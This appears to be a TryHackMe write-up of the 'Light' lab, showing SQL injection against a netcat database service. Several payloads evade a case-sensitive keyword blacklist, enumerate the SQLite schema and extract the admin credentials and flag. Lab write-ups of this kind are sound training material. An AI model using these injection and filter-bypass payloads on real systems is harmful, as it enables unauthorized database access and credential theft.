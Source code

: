 ```yaml
---
title: Light - TryHackMe
date: 2025-01-19
---
```


# Light

## Challenge Information

> *I am working on a database application called Light! Would you like to try it out? If so, the application is running
on `port 1337`. You can connect to it using `nc 10.10.226.23 1337`. You can use the username `smokey` to get started.*

## Challenge Overview

This challenge presents a database application accessible via a Netcat connection. After connecting to
`nc 10.10.226.23 1337`, we are prompted to enter a username. Using the provided username `smokey`, we successfully
authenticate with the following credentials:

```bash
> nc 10.10.226.23 1337
Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```

The objective is to extract the `admin` username, its password, and the flag.

## Enumeration

### Initial Observations

Upon logging in, the application accepts SQL-like queries to interact with the database. However, we quickly discover
that key SQL keywords such as `UNION`, `SELECT`, `union`, and `select` are blacklisted, as shown below:

```sql
' UNION SELECT name FROM sqlite_master WHERE type='table
```

```bash
Ahh there is a word in there I don't like :(
```

This limitation requires us to craft payloads with alternate casing or spacing to bypass the blacklist.

### Bypassing the Blacklist

We successfully bypass the blacklist by altering the case or spacing of the blocked keywords:

```sql
' Union Select name FROM sqlite_master WHERE type='table
```

This payload reveals the presence of a table:

```bash
admintable
```

### Extracting Table Schema

Next, we query the `sqlite_master` table to retrieve the SQL definition of the `admintable`:

```sql
' Union Select sql FROM sqlite_master WHERE name='admintable
```

Output:

```sql
CREATE TABLE admintable
(
    id       INTEGER PRIMARY KEY,
    username TEXT,
    password INTEGER -- The password field is incorrectly labeled as an integer but contains string data. For example, the password for the user `smokey` is 'vYQ5ngPpw8AdUmL'.
)
```

### Extracting the Admin Credentials

#### Admin Username

To retrieve the admin username, we use the following payload:

```sql
' Union Select username FROM admintable WHERE username LIKE '%
```

Output:

```bash
TryHackMeAdmin
```

#### Admin Password

To obtain the admin password, we query the `admintable` with a specific condition:

```sql
' Union Select password FROM admintable WHERE username='TryHackMeAdmin
```

Output:

```bash
[REDACTED]
```

## Retrieving the Flag

Finally, we extract the flag using a query that avoids the admin-specific condition:

```sql
' Union Select password FROM admintable WHERE username != 'TryHackMeAdmin
```

Output:

```bash
[REDACTED]
```

## Reference

- [The Schema Table](https://www.sqlite.org/schematab.html)